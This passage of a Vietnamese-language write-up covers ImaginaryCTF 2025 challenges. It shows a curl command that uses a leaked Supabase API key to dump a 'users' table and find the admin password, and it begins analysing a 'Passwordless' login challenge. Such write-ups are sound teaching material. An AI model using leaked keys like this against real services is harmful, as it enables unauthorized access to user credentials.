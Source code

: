 bây giờ chỉ cần gửi requets chứa API key đến địa chỉ URL đã bị leak để truy vấn các phần từ bảng `users` và tìm đến phần password của `admin` thông qua truy vấn sau:

```bash
curl "https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=*" \
  -H "apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI"  | grep admin
```

Ta nhận được kết quả như sau:
![alt text](/assets/img/posts/IMAGINARYCTF2025/image-1.png)

> **`Flag: ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}`**
> {: .prompt-tip }

## II. Passwordless

> Mô tả: **Didn't have time to implement the email sending feature but that's ok, the site is 100% secure if nobody knows their password to sign in!**

Xem xét qua mã nguồn thì ta thấy được website này có những chức năng chính như sau:

1.  **Đăng ký (`POST /user`):** Sau khi đăng kí hệ thống tự tạo một mật khẩu tạm thời và gửi cho người dùng... 1 đoạn thông báo`'An email has been sent with a temporary password for you to log in'` :)))
2.  **Đăng nhập (`POST /session`):** Yêu cầu người dùng nhập email và mật khẩu để đăng nhập và sau khi đăng nhập thì tại **`views/dashboard.ejs`** chứa`<%- process.env.FLAG %>` tức là flag được hiển thị trực tiếp trên trang dashboard sau khi đăng nhập.Nhưng ta không biết mật khẩu thì làm sau mà đăng nhập để lấy flag đây. Dựa vào logic trên thì ta sẽ tập trung khai thác vấn đề login để lấy được flag.

### Đào sâu vào source code ta có thêm những phát hiện sau

Lỗ hổng xoay quanh module `normalize` dưới đây
